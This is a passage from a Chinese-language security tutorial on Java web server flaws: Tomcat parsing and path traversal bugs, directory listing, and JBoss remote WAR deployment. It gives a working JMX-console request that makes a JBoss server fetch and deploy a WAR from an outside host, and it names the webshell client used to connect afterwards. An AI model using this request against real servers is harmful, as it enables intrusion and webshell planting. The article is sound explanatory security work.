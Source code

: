 服务器在处理请求或其本身可能存在一些安全问题。经典的比如IIS、Nginx解析漏洞。那么是什么原因让Server变得这么”不安全”呢?

在之前的系列里面讲过如果把Tomcat的web.xml的filter添加任意后缀到servlet-name为jsp的Servlet当中，那么所有后缀为.txt的请求都会被当作jsp解析！ ￼![enter image description here](http://drops.javaweb.org/uploads/images/b0da1f719ae35e4aeab0131de2109372995fb242.jpg)

假设Tomcat在写正则的时候一不小心写成了：

```
Pattern.compile("\\.jsp").matcher("1.jsp.jpg").find();

```

那么所有的1.jsp.jpg的请求都会交给jsp对应的servlet处理。跟这类似的漏洞apache曾经就出现过。问题是apache如果在mime.types文件里面没有定义的扩展名，会给解析成倒数第二个定义的扩展名。

### 文件读取漏洞

好吧，这个Tomcat做的有点奇葩。在某些低版本的Tomcat当请求目录并没有找到对应的索引文件，且web.xml的listings是true。于是Tom猫就干脆列出这个目录的所有文件。

Tomcat还出过另一个低级漏洞，当请求的文件是UTF-8编码的时候会造成任意文件遍历漏洞。触发的条件为Apache Tomcat的配置文件context.xml 或 server.xml 的'allowLinking' 和 'URIencoding' 允许'UTF-8'选项

### War文件部署漏洞

很多时候需要在线上部署一个新的应用时可以在Server的控制台去动态的部署一个war文件（其实就是一个压缩文件包）。Server会自动解压并部署。这虽说是非常的方便，但是却因为Server各自的实现不一或者自身安全意思淡漠导致任意的war文件都可以远程部署到Server中去。这里面的典型代表就是Jboss。请求：

```
http://192.168.0.113:8080/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system:service=MainDeployer&methodIndex=17&arg0=http://www.ahack.net/iswin.war

```

成功后访问：`http://192.168.0.113:8080/iswin/index.jsp`菜刀连接（默认包含index.jsp、index.jspx、index.jspf、cmd.jsp三个shell）。

测试版本：jboss-6.1.0.Final。http://p2j.cn/?p=342

![enter image description here](http://drops.javaweb.org/uploads/images/bbb06b6785922d4ee5574a28e6e4a3ba6ef04d14.jpg)

控制台输出信息： ￼![enter image description here](http://drops.javaweb.org/uploads/images/5554adcccf9d266e9a9b3c09f5ccd38385d1c45a.jpg)

这货去年十月还出过一个高危的漏洞，同样是远程war部署。

Apache Tomcat/JBoss EJBInvokerServlet / JMXInvokerServlet (RMI over HTTP) Marshalled Object RCE

详情：[http://www.exploit-db.com/exploits/28713/](http://www.exploit-db.com/exploits/28713/)[http://zone.wooyun.org/content/7398](http://zone.wooyun.org/content/7398)

除了上述漏洞某些Server还出过拒绝服务漏洞、控制台弱口令漏洞、爆路径漏洞、WebDAV、XSS等漏洞。可谓想做好一个WebServer是非常的艰难。

0x05 Server漏洞防御
---------------

* * *

在总结了之前的Server安全问题之后，我们有没有想过怎么去防御来自客户端的攻击呢？我们应该如何去防御？这里仅简要介绍防范思路至于防御细节，对不起请自行实现。
